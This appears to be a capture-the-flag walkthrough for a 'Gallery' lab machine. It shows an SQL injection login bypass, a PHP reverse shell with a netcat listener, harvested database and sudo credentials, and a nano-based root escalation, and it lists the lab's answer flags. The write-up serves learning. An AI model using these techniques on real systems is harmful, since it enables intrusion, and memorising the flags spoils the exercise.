


# Gallery

* IP = 10.10.4.131

## Questions/Tasks:
1. How many ports are open?

* Nmap scan report:
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System

```
**Ans-2**

2. What's the name of the CMS?

* Gobuster report:
```bash
2022/06/20 11:45:53 Starting gobuster
=====================================================
/gallery (Status: 301)
Progress: 26788 / 87666 (30.56%)
```
2a. Navigating to '/gallery' we're redirected to '/gallery/login.php'
2b. Firstly we try random creds like: _admin_ and _admin_ and get the following response when we inspect with dev   tools:
[Screenshot](./inspect.png)
2c. The login page is vulnerable to SQL injection(found by observation and testing around)
2d. Login to /gallery by:
```
' OR 1=1 #
```
in both username and password fields.
**Ans-Simple Image Gallery**

3. What's the hash password of the admin user?

* We navigate to this page(the my account page of the Admin):

* Try to upload PHP reverse shell code attached with project
  Since the backend is probably made on PHP(hint: login page was login.php)
* Put a netcat listener:
```bash
nc -lnvp 7777
```
* And we get a reverse shell!

* Stabilise the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* We're www-data with lower privileges
* mike is a user in home directory
### Start enumerating the server:
* The /var/www/html/gallery contents:
```bash
www-data@gallery:/var/www/html/gallery$ ls
404.html  build               database  index.php       report       user
albums    classes             dist      initialize.php  schedules
archives  config.php          home.php  login.php       system_info
assets    create_account.php  inc       plugins         uploads

```
* Contents of initialize.php:
```php

  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

    if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
    if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
    if(!defined('dev_data')) define('dev_data',$dev_data);
    if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
    if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
    if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
    if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");


```
* The password mentioned in clear text is of dev_oretnom which might be creds of MariaDB database admin
* We login with gallery_user and passw0rd321:
```bash
mysql -u gallery_user -p
```
* We login successfully!
[Screenshot](./3.png)
* Henceforth we explore the database:
[Screenshot](./4.png)
[Screenshot](./5.png)
[Screenshot](./6.png)

**Ans-a228b12a08b6527e7978cbe5d914531c**

4. What's the user flag?

* In the /var directory we find backups directory which contains mike's home backup:
* In which we can find the sudo password for mike from .bash_history:
[Screenshot](./7.png)
[Screenshot](./8.png)
* The password:
```
b3stpassw0rdbr0xx
```
* Escalate with:
```bash
su mike
```

**Ans-THM{af05cd30bfed67849befd546ef}**

5. What's the root flag?

* To Escalate to root privileges we first check commands that can be run as root with:
```bash
$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```
* As we can see we can run the above program as root:
* Navigating to /opt and the file contents are:
```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
* In the above 4 options we can run nano as root
* Hence we execute:
```bash
sudo /bin/bash /opt/rootkit.sh
```
* Take help from <a href="https://gtfobins.github.io/">gtfobins</a> to Escalate privileges through nano:
```bash
nano
^R^X
reset; sh 1>&0 2>&0
```
* ctrl+R for Read File and then ctrl+X to execute commands
[Screenshot](./9.png)
* Navigate to /root and check the root.txt file
**Ans**-
```
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```
